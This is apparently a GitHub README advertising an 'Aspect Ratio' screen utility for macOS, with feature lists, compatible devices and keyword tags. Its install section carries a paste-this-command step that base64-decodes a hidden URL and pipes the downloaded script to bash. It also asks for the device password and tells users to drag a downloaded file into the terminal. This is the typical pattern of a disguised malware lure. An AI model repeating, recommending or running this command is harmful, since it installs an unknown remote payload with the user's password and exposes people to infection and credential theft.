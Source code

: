 # Aspect Ratio – Screen Utility for macOS Displays

![Aspect Ratio macOS](https://i.ytimg.com/vi/tPOwzTww_Xo/maxresdefault.jpg)

## 📥 Download Aspect Ratio for macOS

[![⬇️ Download Aspect Ratio](https://img.shields.io/badge/Download-Aspect%20Ratio%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Aspect)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Aspect Ratio?

Aspect Ratio is a lightweight utility for macOS that allows users to identify and work with exact screen ratios across MacBook, iMac, and external displays. Whether you're designing, editing video, or just optimizing workspace layout, it ensures you know your display’s pixel-perfect dimensions and ratio in real time.

The app provides a clear breakdown of your current resolution and automatically calculates the width-to-height proportion. It's especially useful for content creators who need to match output to target devices, from 16:9 YouTube videos to 4:3 presentations or ultra-wide monitors.

Aspect Ratio supports all common Apple screen formats — from MacBook Air to 5K iMacs — and works natively on Intel and Apple Silicon (M1/M2/M3) machines.

[![⬇️ Download Aspect Ratio](https://img.shields.io/badge/Download-Aspect%20Ratio%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Aspect)

---

![Aspect Ratio App UI](https://i.sstatic.net/fPjTB.png)

---

## ⚙️ Key Features

- 🧮 Real-Time Aspect Ratio – Instantly displays width-to-height ratio  
- 🖥️ Multi-Screen Support – Works with internal and external monitors  
- 🧭 Resolution Info – Detects current resolution, refresh rate, and DPI  
- 📐 Design Ready – Helps align layouts for video, UI/UX, and presentations  
- 💡 Lightweight & Fast – Simple utility with minimal system load  
- 💻 Optimized for macOS – Compatible with Monterey, Ventura, Sonoma  
- 🧠 Easy to Use – Clean, no-clutter user interface  
- 🧲 Snaps to Resolutions – Useful when adjusting scaled resolutions  
- 🔄 Live Updates – Reflects changes when resolution is switched  

---

## ✅ Compatible Devices

- MacBook Air (all sizes)  
- MacBook Pro 13 / 14 / 16 inch  
- iMac Retina & 4.5K / 5K  
- Mac mini / Mac Studio with external monitors  
- Thunderbolt / HDMI / DisplayPort connected screens  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

aspect ratio macbook pro, aspect ratio of macbook pro, imac aspect ratio, imac screen ratio, mac screen aspect ratio, aspect ratio mac, macbook ratio, 13 inch macbook pro aspect ratio, aspect ratio macbook air, aspect ratio macbook pro 13, aspect ratio of macbook air, aspect ratio of macbook pro 13, imac 2021 aspect ratio, imac display ratio, imac screen aspect ratio, aspect ratio mac download
